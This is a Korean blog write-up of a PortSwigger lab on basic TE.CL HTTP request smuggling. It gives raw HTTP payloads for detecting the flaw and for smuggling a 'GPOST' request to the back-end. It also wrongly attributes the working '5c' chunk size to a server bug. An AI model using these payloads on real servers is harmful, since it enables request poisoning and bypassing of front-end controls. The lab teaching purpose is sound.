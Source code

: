 ```yaml
---
layout: post
title: "Burp Academy-HTTP Request Smuggling 관련 취약점: HTTP request smuggling, basic TE.CL vulnerability"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, HTTP Request Smuggling]
toc: true
last_modified_at: 2023-12-28 22:00:00 +0900
---
```


# 개요
- HTTP Request Smuggling 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl
- 취약점 설명페이지: https://portswigger.net/web-security/request-smuggling
- 난이도: PRACTITIONER (보통)

# 랩 개요
- 이 랩은 프론트 엔드 서버와 백엔드 서버로 구성되어 있고, 백엔드 서버는 chunked encoding 을 지원하지 않는다. 
- 프론트 엔드 서버는 GET이나 POST가 아닌 요청은 거부한다. 
- 랩을 풀려면 백엔드 서버에게 HTTP요청을 밀반입해서, 백엔드 서버가 다음 요청을 처리할 때 GPOST 라는 메서드를 처리하도록 만들면 랩이 풀린다. 
- 팁: 수동으로 HTTP Request Smuggling을 수행하는 것은 힘들다. `HTTP Request Smuggler` Burp 확장 프로그램을 이용하면 쉽게 할 수 있다. 

```
This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.

Tip
Manually fixing the length fields in request smuggling attacks can be tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can install it via the BApp Store.
```

# 도전
1. TE.CL 용 체크 페이로드를 준비한다. 

TE.CL의 전형적인 페이로드는 다음과 같이 생겼다. 

```http

POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 6
Transfer-Encoding: chunked

0\r\n
\r\n
X
```

프론트 엔드는 TE헤더를 보고, 백엔드는 CL헤더를 보는 경우, 위의 페이로드를 보내면 타임아웃이 발생한다. 이유는 다음과 같다. 

- 프론트엔드는 TE헤더를 보기 때문에 5바이트인 `0\r\n\r\n`까지를 POST의 바디로 인식하여 여기까지를 백엔드 서버로 보낸다. 
- 백엔드 서버는 CL헤더를 보기 때문에 마지막 바이트가 올때까지 대기한다. (CL헤더에 6바이트라고 쓰여있으므로 마지막 1 바이트를 기다린다.) 
- 백엔드가 계속 대기하기 때문에 타임아웃이 발생한다.

**TE.CL패턴에서는 CL헤더에 적힌 크기만큼의 바이트가 백엔드에 전달되지 않는 것이 타임아웃을 발생시키는 요인이다.**

2. 실제로 보내본다. 타임아웃이 발생했다. TE.CL 타입의 스머글링이 가능해보인다.

![타임아웃 발생](/images/burp-academy-hrs-2-1.png)

3. 실제 스머글링용 요청을 준비한다. 

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 3

1\r\n
G\r\n
0\r\n
\r\n
```

위의 요청을 두번보내면 백엔드 서버에서는 `GPOST`로 시작하는 요청을 처리하게 될 것이다. 이유는 다음과 같다. 

- 프론트 엔드는 TE를 보기 때문에 위의 요청 전체를 백엔드에 보낸다. 
- 백엔드는 CL을 보기 때문에 `1\r\n`까지를 하나의 요청으로 처리한다. `G~`부터는 다음 요청으로 인식한다. 

4. 보내본다. 두번째 요청의 응답으로 `"Unrecognized method G0POST"`라는 메세지가 출력된다. G에 더해 0까지가 다음 요청으로 들어간 것이다. 0을 빼야한다. 어떻게 할 수 있을까?

![시도 결과](/images/burp-academy-hrs-2-2.png)

5. 조사해보니 다음과 같이 `0\r\n\r\n` 앞에 `G`가 아니라 **HTTP요청 전체를 밀반입(스머글링)하는** 식으로 적으면 될 것 같다. 

```http
POST / HTTP/1.1
Host: 0a0a003f0420df6183f6c8b0009400a4.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
Transfer-Encoding: chunked

x=1
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

하지만 시도해보면 `"error":"Invalid request"`라는 메세지가 돌아온다 .

![시도 결과](/images/burp-academy-hrs-2-3.png)

6. 원인을 모르겠다. 답을 본다. 파라메터부분을 `x=1`에서 `5c`로 변경하자 놀랍게도 스머글링에 성공했다. 문제 서버에 뭔가 버그가 있는 것 같다. 

```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![정답보고 시도](/images/burp-academy-hrs-2-4.png)

7. 풀렸다는 메세지가 출력된다. 

![풀이 성공](/images/burp-academy-hrs-2-success.png)
